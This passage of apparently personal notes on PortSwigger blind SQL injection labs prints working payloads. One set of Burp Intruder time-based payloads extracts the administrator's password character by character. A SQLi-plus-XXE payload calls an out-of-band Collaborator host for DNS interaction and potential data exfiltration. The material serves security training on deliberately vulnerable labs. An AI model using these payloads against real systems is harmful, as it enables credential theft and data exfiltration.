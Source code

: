alt. (intruder-be):

x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--
x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='§a§')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--
x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,3,1)='§a§')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--
...


### Solution
The solution is **extremely long** and it has not been copied, see the reference link.

## Blind SQL injection with out-of-band interaction
Reference: https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band


### Quick Solution
This lab contains a blind SQL Injection vulnerability that has **no effect on the application's response**. For this reason an out-of-band interaction with an external domain must be triggered. I tried to use the ``--dns-domain`` option of ``sqlmap`` but it doesn't seems to work. That's probably because of my machine setup (Burp on WSL2 and sqlmap dockerized). For this lab skip to the solution.


### Solution
1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the ``TrackingId`` cookie.
2. Modify the ``TrackingId`` cookie, changing it to a payload that will trigger an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows: 
```
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```
The solution described here is sufficient simply to trigger a DNS lookup and so solve the lab. In a real-world situation, you would use Burp Collaborator client to verify that your payload had indeed triggered a DNS lookup and potentially exploit this behavior to exfiltrate sensitive data from the application. We'll go over this technique in the next lab.

## Blind SQL injection with out-of-band data exfiltration
Reference: https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration


### Quick Solution
This lab contains a blind SQL Injection vulnerability that has **no effect on the application's response**. For this reason an out-of-band interaction with an external domain must be triggered. I tried to use the ``--dns-domain`` option of ``sqlmap`` but it doesn't seems to work. That's probably because of my machine setup (Burp on WSL2 and sqlmap dockerized). For this lab skip to the solution.
